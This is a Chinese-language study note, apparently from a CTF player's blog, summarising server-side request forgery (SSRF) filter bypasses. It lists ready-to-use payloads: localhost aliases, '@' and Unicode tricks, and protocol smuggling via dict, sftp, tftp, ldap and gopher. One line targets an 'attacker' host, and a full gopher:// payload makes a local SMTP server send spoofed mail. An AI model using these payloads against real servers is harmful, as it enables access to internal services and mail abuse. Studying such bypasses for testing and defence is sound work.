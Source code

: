 ```yaml
---

title: ssrf绕过总结

date: 2021-04-14 23:46:46

tags: 笔记

categories: note7

---
```

今天群里发了一个关于ssrf绕过总结的文章，想起来做过的ssrf题目也有不少，这次做一个绕过的总结。这里只总结目前还没有见过的绕过方式。  

## 攻击本地  

	http://127.0.0.1:80
	http://localhost:22


1、利用[::]


	利用[::]绕过localhost
	http://[::]:80/  >>>  http://127.0.0.1

2、利用@  

	http://example.com@127.0.0.1  

3、利用短地址

	http://dwz.cn/11SMa  >>>  http://127.0.0.1  

4、利用上传

	也不一定是上传，我也说不清，自己体会 -.-
	修改"type=file"为"type=url"
	比如：
	上传图片处修改上传，将图片文件修改为URL，即可能触发SSRF  

5、利用Enclosed alphanumerics
	
	利用Enclosed alphanumerics
	ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
	List:
	① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
	⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
	⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
	⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
	Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
	ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
	⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
	⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿  
	
	这个确实是少见了。和之前那个unicode编码有相似之处。  

6、利用句号

	127。0。0。1  >>>  127.0.0.1  
	这个算是和上面那个差不多的。  

7、利用特殊地址

	http://0/  

8、利用协议

	Dict://
	dict://<user-auth>@<host>:<port>/d:<word>
	ssrf.php?url=dict://attacker:11111/
	SFTP://
	ssrf.php?url=sftp://example.com:11111/
	TFTP://
	ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
	LDAP://
	ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
	Gopher://
	ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a  

9、使用组合

	各种绕过进行自由组合即可   

其实绕过方式多种多样，遇到没见过的就多积累，这样才能面对一道题有多种方法。